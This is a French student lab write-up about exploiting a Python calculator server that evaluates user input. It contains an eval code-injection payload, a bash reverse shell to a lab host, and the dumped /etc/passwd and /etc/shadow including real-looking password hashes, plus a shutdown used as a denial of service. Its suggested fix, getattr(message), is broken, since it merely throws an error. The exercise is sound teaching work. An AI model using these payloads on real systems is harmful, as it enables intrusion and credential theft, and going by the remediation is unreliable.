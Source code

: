 # TP5 : Exploit, pwn, fix

## Sommaire

- [TP5 : Exploit, pwn, fix](#tp5--exploit-pwn-fix)
  - [Sommaire](#sommaire)
  - [1. Reconnaissance](#1-reconnaissance)
  - [2. Exploit](#2-exploit)
  - [3. Reverse shell](#3-reverse-shell)
  - [4. Bonus : DOS](#4-bonus--dos)
  - [II. Remédiation](#ii-remédiation)

## 1. Reconnaissance

🌞 **Déterminer**

- à quelle IP ce client essaie de se co quand on le lance

```
10.1.2.12
```

- à quel port il essaie de se co sur cette IP

```
13337
```

- vous **DEVEZ** trouver une autre méthode que la lecture du code pour obtenir ces infos


Lancer le programme python et regarder sur Wireshark à quelle IP et à quel port le script essaye de se connecter.```

🌞 **Scanner le réseau**

- trouvez une ou plusieurs machines qui héberge une app sur ce port

```
[quentin@localhost ~]$ sudo nmap 10.33.64.0/20 -p 1337 --open

Starting Nmap 7.80 ( https://nmap.org ) at 2023-11-30 10:32 CET
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.33.66.165
Host is up (0.0043s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 56:4C:81:26:BF:C8 (Unknown)

Nmap scan report for 10.33.70.40
Host is up (0.037s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: E4:B3:18:48:36:68 (Intel Corporate)

Nmap scan report for 10.33.76.195
Host is up (0.0043s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 82:30:BF:B6:57:2F (Unknown)

Nmap scan report for 10.33.76.217
Host is up (0.0066s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 2C:6D:C1:5E:41:6A (Unknown)

Nmap done: 4096 IP addresses (843 hosts up) scanned in 295.53 seconds
```

🦈 **tp5_nmap.pcapng**

- capture Wireshark de votre `nmap`

[Avec filtre TCP](/captures/tp5_nmap.pcapng)

🌞 **Connectez-vous au serveur**

- vous devez déterminer, si c'est pas déjà fait, à quoi sert l'application
```
Une calculatrice qui résout des opérations arithmétiques et qui affiche le résultat dans un fichier log
```

## 2. Exploit

➜ **On est face à une application qui, d'une façon ou d'une autre, prend ce que le user saisit, et l'évalue.**

Ca doit lever un giga red flag dans votre esprit de hacker ça. Tu saisis ce que tu veux, et le serveur le lit et l'interprète.

🌞 **Injecter du code serveur**

- démerdez-vous pour arriver à faire exécuter du code arbitraire au serveur
- tu sais comment te co au serveur, et tu sais que ce que tu lui envoies, il l'évalue
- vous pouvez normalement avoir une injection de code :
  - exécuter du code Python
  - et normalement, exécuter des commandes shell depuis cette injection Python

```cmd
__import__('os').system('ping -c 1 10.1.1.101')
```

[serverIP:10.1.1.100, clientIP:10.1.1.101](captures/ping_injection.pcapng)


## 3. Reverse shell

🌞 **Obtenez un reverse shell sur le serveur**

- si t'as injection de code, t'as sûrement possibilité de pop un reverse shell

```
__import__('os').system('bash -i >& /dev/tcp/10.1.1.101/3333 0>&1')
```
```
└─$ nc -lvnp 3333
listening on [any] 3333 ...
connect to [10.1.1.101] from (UNKNOWN) [10.1.1.100] 43566
[root@localhost quentin]#
```

🌞 **Pwn**

- voler les fichiers `/etc/shadow` et `/etc/passwd`
```
[root@localhost quentin]# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
sssd:x:998:995:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:997:994:chrony system user:/var/lib/chrony:/sbin/nologin
systemd-oom:x:992:992:systemd Userspace OOM Killer:/:/usr/sbin/nologin
quentin:x:1000:1000::/home/quentin:/bin/bash
tcpdump:x:72:72::/:/sbin/nologin
```
```
[root@localhost quentin]# cat /etc/shadow
root:$6$dbSRBPfwgSi3TNzE$JF3g94rHTYUq1.W650y/feMvu5smAlj45J7X.mtKRvJO4eL8jYebgBXPIcni4wQhiyA.dfrMQP08NCpgyOmex0:19689:0:99999:7:::
bin:*:19469:0:99999:7:::
daemon:*:19469:0:99999:7:::
adm:*:19469:0:99999:7:::
lp:*:19469:0:99999:7:::
sync:*:19469:0:99999:7:::
shutdown:*:19469:0:99999:7:::
halt:*:19469:0:99999:7:::
mail:*:19469:0:99999:7:::
operator:*:19469:0:99999:7:::
games:*:19469:0:99999:7:::
ftp:*:19469:0:99999:7:::
nobody:*:19469:0:99999:7:::
systemd-coredump:!!:19649::::::
dbus:!!:19649::::::
tss:!!:19649::::::
sssd:!!:19649::::::
sshd:!!:19649::::::
chrony:!!:19649::::::
systemd-oom:!*:19649::::::
quentin:$6$p5/s9.JMNbLHwNWv$Y02LXN/BMUdt/tWLTHFK7xaCAWsPn1leTVqCjldyJKx3aXUnUhWjVfEwZFNppc1LGuwVYxW4LhIk64VpaXjoj.:19649:0:99999:7:::
tcpdump:!!:19649::::::
```

- voler le code serveur de l'application

  [code serveur](captures/server.py)

- déterminer si d'autres services sont disponibles sur la machine

```
[root@localhost quentin]# ss -lntp
ss -lntp                                                                                                                                                        
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                                                                                               
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=728,fd=3))                                                                        
LISTEN 0      1            0.0.0.0:13337      0.0.0.0:*    users:(("python3",pid=1896,fd=4))                                                                    
LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=728,fd=4)) 
```

## 4. Bonus : DOS

⭐ **BONUS : DOS l'application**

- faut que le service soit indispo, d'une façon ou d'une autre
- fais le crash, fais le sleep, fais le s'arrêter, peu importe

```
[root@localhost quentin]# shutdown -h now
```

## II. Remédiation

🌞 **Proposer une remédiation dév**

```
Ne pas utiliser la méthode eval() qui est vulnérable à l'exécution de code arbitraire mais une autre méthode comme getattr
result = getattr(message)


exemple avec le même reverse shell injecté mais avec la méthode modifié côté serveur :

Un client ('10.1.1.101', 39646) s'est connecté.
Le client ('10.1.1.101', 39646) a envoyé __import__('os').system('bash -i >& /dev/tcp/10.1.1.101/3333 0>&1')
Traceback (most recent call last):
  File "/home/quentin/server.py", line 124, in <module>
    result = getattr(message)
TypeError: getattr expected at least 2 arguments, got 1

```

🌞 **Proposer une remédiation système**

```
- Bloquer les connexion sortantes avec le firewall
- Ne pas utiliser root comme utilisateur sur le server mais plutôt un utilisateur qui aurait seulement les droits nécessaires pour faire fonctionner le service et rien d'autres ailleurs.
```